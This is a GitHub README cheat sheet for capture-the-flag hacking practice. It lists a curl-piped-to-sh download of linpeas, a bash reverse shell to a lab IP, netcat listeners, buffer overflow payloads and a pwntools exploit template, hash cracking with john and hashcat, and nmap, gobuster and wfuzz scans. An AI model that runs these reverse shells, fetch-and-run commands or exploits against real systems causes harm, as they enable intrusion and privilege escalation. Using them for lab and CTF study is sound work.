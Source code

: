 # ctf-cheatsheet
This repo comprises useful code bytes for solving common ctf tasks.

## good enum scripts
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
https://github.com/rebootuser/LinEnum
```bash
sudo python -m SimpleHTTPServer 80
curl 10.10.10.10/linpeas.sh | sh
```

### search for string in files
```
grep -r "string"
```


## initial tasks and enumeration
## linux privileges
##### exploits/privesc for common binaries
https://gtfobins.github.io/
##### listen for reverse shell connection
```bash
nc -lvp 1234
# or
socat file:`tty`,raw,echo=0 tcp-listen:12345
```
##### add ssh key to trusted (login)
```bash
echo "public key on kali" >> authorized_keys
```
##### create python webserver
```
python -m SimpleHTTPServer 4004
python3 -m http.server 4004
```
##### find out which shell is used
```bash
echo $0
```
##### upgrade shell with sh to bash, spawn reverse shell
```bash
whereis bash
/user/bin/bash
bash -i >& /dev/tcp/10.10.14.123/4004 0>&1
```
##### upgrade shell with python to bash
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
##### get current user
```bash
whoami
```
##### change user to username
```bash
su - username
```
##### check, what can be executed with root
```bash
sudo -l
```
##### enumerate linux system (for example with www-data user)
```bash
https://github.com/rebootuser/LinEnum
```
## reverse hash
```bash
john hashes.txt --word-list=/usr/share/wordlists/somelist.txt --fformat-Raw-SHA256 --show

hashcat -m 3200 hash.txt wordlist.txt -r /usr/share/hashcat/rules/best64.rule --debug-mode=1 --debug-file=matched.rule

bcrypt (3200), bruteforce with pattern:
hashcat -m 3200 -a 3 /home/dan/Documents/delivery/hash.txt PleaseSubscribe\!?d?d
```
## linux network
##### change hosts file
```bash
sudo nano /etc/hosts
```

##### portscan
###### nmap, initial scan (scans ~1000 scans)
```bash
nmap -Pn -n -oN nmap_initial.txt 10.10.10.10
nmap -sV -sT -sC -o nmap_initial2.txt 10.10.10.10
```
###### nmap, full port scan
```bash
namp -A -p- -oN nmap_full.txt 10.10.10.10
```
###### nmap, target scan on port 20 and 80
```bash
nmap -Pn -n -p22,80 -sC -sV -oN nmap/targeted 10.10.10.10
```
##### scan for folders and files
###### gobuster, search for folders
```bash
gobuster dir -u domain.com -w /home/dir/wordlist.txt
```
###### gobuster, search for files (.txt / .php / etc)
```bash
gobuster dir -u domain.com -w /home/dir/wordlist.txt -x txt
```
##### scan for subdomains
1) add domain to hosts
2) run wfuzz (here: hide results with code 301)
```bash
wfuzz -c -w /home/path/subdomains.txt -u "http://domain.com" -H "Host: FUZZ.domain.com" -t 50 --hc 301
```
##### http GET/POST methods
###### curl GET with --data 
```bash
curl --get -d name=admin -d shoesize=12 http://example.com/
```
###### curl POST with --data 
```bash
curl -d name=admin -d shoesize=12 http://example.com/
```
###### wfuzz enumerate POST with --data
```bash
wfuzz -c -d "username=FUZZ&password=n00bsec" -w /usr/share/seclists/Usernames/Names/names.txt -u http://10.10.10.73/login.php
```

## buffer overflow
##### execute locally, string as text input
###### bash
```bash
run <<< $(python -c 'print(188*"\x41" + "\xe2\x91\x04\x08" + "\x43" * 4 + "\xef\xbe\xad\xde"+ "\x0d\xd0\xde\xc0" )')
```
##### execute remotely, string as text input
###### bash
```bash
echo $(python -c 'print(188*"\x41" + "\xe2\x91\x04\x08")') | nc 123.123.123.123 32123
```
###### pwntools
```bash
from socket import socket
from pwn import *
ip = "sub.domain.com"
port = 1234
ret = 0x080491e2
no = 0x32432342
para_1 = 0xdedebebe
para_2 = 0xc0c00d0d
payload_len = 200 + 20
payload = "A" * payload_len
payload += p32(ret)
payload += p32(no)
payload += p32(para_1)
payload += p32(para_2)
r = remote(ip, port)
r.recvline()
r.sendline(payload)
r.interactive()
```

## linux binary debugger [gdb]
with peda plugin: https://github.com/longld/peda
###### useful commands
```bash
gdb ./file        # open binary in gdb
run               # r: run binary from start till to first breakpoint
break *0x080492c0 # set breakpoint to address
break main        # set breakpoint to beginning of main() function
info break        # show all breakpoints
-> del 1          # delete first breakpoint
continue          # c: continue execution till next breakpoint
next              # n: execute one line
x/300xb $esp      # show 300 bytes from stack (esp)
```

## python packages
##### build python package
```bash
python3 setup.py sdist bdist_wheel
```

##### upload with twine
```bash
python3 -m twine upload --repository-url http://pypi.domain.com:8080 /home/path/dist/* --verbose
```
-> enter username and password

### good writeupts:
https://noobsec.net/hackthebox/htb-falafel-writeup-w-o-metasploit/